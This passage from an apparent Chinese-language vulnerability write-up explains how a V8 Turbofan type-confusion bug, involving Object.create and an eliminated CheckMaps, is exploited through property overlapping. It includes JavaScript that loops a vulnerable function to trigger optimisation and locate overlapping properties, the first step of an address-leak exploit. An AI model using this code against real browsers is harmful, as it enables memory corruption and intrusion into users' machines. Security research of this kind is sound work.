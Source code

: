 不过在利用时，需要大量循环来调用这一函数来触发 Turbofan 的优化。

## 漏洞利用

现在我们有了一个可以工作的 Type Confusion 漏洞，该漏洞会导致 V8 将 Dictionary 当作数组访问，从而允许我们操纵对象内存布局中的函数指针和数据，但是利用的过程十分繁琐。  
经过前面的分析，我们有办法可以让函数中多余的`CheckMaps`节点消失，并且能够通过`CreateObject`改变`Properties`，则很容易可以构造一种非预期情况。首先构造一个`obj`，初始化时赋予属性`a`，然后增加属性`b`，函数中首先访问`a`，通过类型检查，然后读取`x.b`，由于没有类型检查，此时返回一个与原`b`属性偏移相同的数据，但由于`Properties`发生变化，返回的数据不会再是`b`属性的值。  
想要稳定利用这一漏洞，一个很大的问题在于，Dictionary 内部的内存布局是随机的，不过在 V8 中有一规律，相同属性的`obj`，在`Dictionary`中各属性的偏移也相同。根据这一规律，我们可以使用同样的构造方式来构造具有相同属性的不同`obj`，来满足不同的需求。

### Property Overlapping

根据上面的分析，利用这一漏洞时，访问属性`b`时会访问到一个其他的元素。我们可以利用这种 property overlapping，实现类型混淆。如属性`b`是一个`Number`类型，而另一个属性是一个`Object`类型，访问属性`b`会以`Number`的方式读出`Object`的地址，造成地址泄露。如果想要控制泄露的`Object`，就需要知道另一个属性是什么。  
下面是一种比较简单常用的方法，按照一定的规律进行赋值，如属性`bi`的值定义为`-i`，然后依次读取，如果读出的值与原值不同，则可以根据读出的值找到最终读出的是哪一个属性的值。

```bash
function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i < 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i < 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) => `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i < 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i < res.length; i++) {
      if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

print("step 1: check whether vulnerability exists");
```